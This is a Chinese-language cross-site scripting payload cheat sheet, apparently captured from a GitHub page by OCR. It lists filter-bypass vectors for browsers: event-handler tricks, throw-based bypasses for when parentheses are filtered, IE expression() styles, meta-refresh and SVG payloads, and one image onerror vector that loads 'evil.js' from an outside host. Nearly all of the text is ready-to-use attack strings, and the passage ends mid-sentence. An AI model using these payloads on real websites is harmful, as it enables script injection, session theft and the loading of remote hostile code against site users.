 ```
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8有效
```
过滤括号的情况下

当括号被过滤的时候可以使用throw来绕过
```
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
```
以上两个测试向量在Chrome跟IE在上面会出现一个“uncaught”的错误，可以用以下的向量：
```
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```
expression属性
```
<img style="xss:expression(alert(0))"> // IE7以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下
location属性

<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123
```
其他的一些payload
```
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript:alert(1)"/>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:\u0061lert(1);"></g></svg>
<svg xmlns:xlink="http://www.w3.org/1999/xlink"><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg>
<meta content="
 1 
;JAVASCRIPT: alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click
<img src=1 onerror="s=document.createElement('script');s.src='//7sbs9y.com1.z0.glb.clouddn.com/evil.js';document.body.appendChild(s);"
```
当`= ( ) ; :`被过滤时
```
<svg><script>alert(/1/)</script> // 通杀所有浏览器
```
opera中可以不闭合
```
<svg><script>alert( 1) // Opera可查
```
很多情况下WAF会实体编码用户的输入数据，
